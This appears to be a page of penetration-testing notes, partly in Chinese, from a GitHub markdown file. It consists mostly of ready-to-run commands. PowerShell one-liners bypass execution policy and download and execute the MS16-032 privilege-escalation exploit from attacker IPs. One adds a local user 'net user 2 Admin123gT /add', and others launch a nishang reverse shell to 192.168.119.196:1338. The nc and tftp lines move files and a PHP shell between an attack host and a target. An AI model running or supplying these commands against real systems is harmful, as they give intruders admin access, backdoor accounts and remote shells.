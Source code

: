 ```
# C:\Windows\system32\\WindowsPowerShell\v1.0\powershell.exe
# c:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe

# c:\windows\sysWoW64\\WindowsPowerShell\v1.0\powershell.exe
# C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe

# check shell
powershell [Environment]::Is64BitProcess

#-from windows-kernel-exploits, add user
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.128/Powershell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user 2 Admin123gT /add'"

# exploit to reverse shell with nishang
# modify Invoke-MS16032, add to bottom
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.119.196/shell.ps1')"

# modify Invoke-PowerShellTcp.ps1, add to bottom
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.196 -Port 1338

# trigger
c:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/Invoke-MS16032.ps1')
```

[Invoke-MS16032.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1)
[Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)


## Download

**nc**

```bash
# file.log 发送到 4444端口，传输至192.168.3.11 
nc -lvp 4444 < file.log
nc 192.168.3.11:4444 > file.log

# target监听，接收文件enum.sh
nc -lvp 3333 > enum.sh //target host
nc 192.168.3.10 3333 < enum.sh //attack host
```

**ftp**

```
#ftp

#tftp
tftp 192.168.0.10
tftp> get fille.log

tftp 192.168.0.101 << "get shell1.php shell1.php"
```
